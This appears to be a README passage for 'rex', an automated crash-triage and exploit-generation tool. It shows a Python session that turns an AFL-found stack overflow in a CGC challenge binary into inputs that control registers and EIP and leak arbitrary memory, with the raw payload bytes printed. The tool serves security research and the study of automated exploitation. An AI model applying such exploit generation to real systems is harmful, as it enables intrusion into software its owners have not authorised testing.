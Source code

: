 ### Rex

At the moment rex offers two main features, crash triaging and exploitation for certain kinds of crashes.

In the example below we take a crashing input for `0b32aa01_01` discovered by AFL. The vulnerability is a simple buffer overflow on the stack.

Exploit objects can take an exploitable crashing input and will attempt to turn it into an exploit which can set
set every register and leak data from an arbitrary address.

```python
>>> crash = rex.Crash("../binaries/cgc_scored_event_1/cgc/0b32aa01_01", "\x05\x00\xff\xff\x80\xff\xff\xff\x80\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xff\xff\x80\xf1\xf1\xf1\xeb\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\x00\xde\x7f\xff\x80\xff\xff\xff\x80\x0f\xff\xff\xff~\xf3\xff\xff\xff\xff\x7f\xff\xff\x80\xff\xff\xfe\xff\t\xfe\xfe\xfe\xfe\xfe\nWelc\xfeme to(Palindrome Fiwder\n\n\xff\xff\xff\xff\x80\xff\xff\xe8\x80\x0f\xff\xff\xff\x7f#\n")
>>> crash.exploitable()
True
>>> exploit = crash.exploit()
>>> # create an input which populates eax with 0x41414141 and crashes with eip at 0x58585858
>>> exploit.set_register("ebx", 0x41414141, final_ip=0x58585858) 
'\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\x00\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8e\x81\x04\x08\x00\x00\x00\x00\x84\xc5EIAAAAXXXX\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
>>> exploit.leak_address(0x8048530, 0x1000)
'\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xff\xff\x00\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8e\x81\x04\x08\x00\x00\x00\x00a\x84\x04\x08\x00\x10\x00\x000\x85\x04\x08\x01\x00\x00\x00A\x84\x04\x08\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
